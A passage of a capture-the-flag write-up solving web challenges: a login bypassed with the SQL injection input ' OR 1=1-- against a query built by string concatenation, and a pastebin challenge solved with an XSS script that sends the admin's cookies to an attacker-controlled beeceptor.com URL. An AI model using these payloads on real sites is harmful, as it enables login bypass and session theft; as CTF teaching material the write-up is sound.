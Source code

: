 #### Description

I just learned about orms today! They seem kinda difficult to implement though... Guess I'll stick to good old raw sql statements!

#### Solution

analyzing the source code of this challenge the we quickly realize that this line was vulnerable:  
`db.all("SELECT * FROM users WHERE username='" + req.body.username + "' AND password='" + req.body.password + "'"`  
once inside thanks to this payload insert into the password field (`' OR 1=1-- `) the flag was revealed  
**\*flag{sqli_overused_again_0b4f6}**

### web/pastebin-1 ![c](https://img.shields.io/badge/103_points-green)

#### Description

Ah, the classic pastebin. Can you get the admin's cookies?

#### solution

if you open the link a box for memo appear.  
![Alt text](./img/pastebin1.png?raw=true "Title")  
When you input something and click on "create paste" an unique url for your note is created and is shown in the url in this way: `https://pastebin-1.mc.ax/view?id=aipjdvnswtuqgxky`  
There is also another link that is an admin form for sending them a report of a problem. We can exploit the fact that the admin view the link we send and through an xss exploitation we can redirect him to our site and steal his cookies.  
This is the payload used in this challenge:

```
<script>
cookies = document.cookie;
url = "https://redsite.free.beeceptor.com/" + cookies;
window.location.href = url;
</script>
```

and into our page in https://beeceptor.com/ we find the flag  
![Alt text](./img/pastebin2.png?raw=true "Title")  
**\*flag{d1dn7_n33d_70_b3_1n_ru57}**

### web/secure ![c](https://img.shields.io/badge/104_points-green)
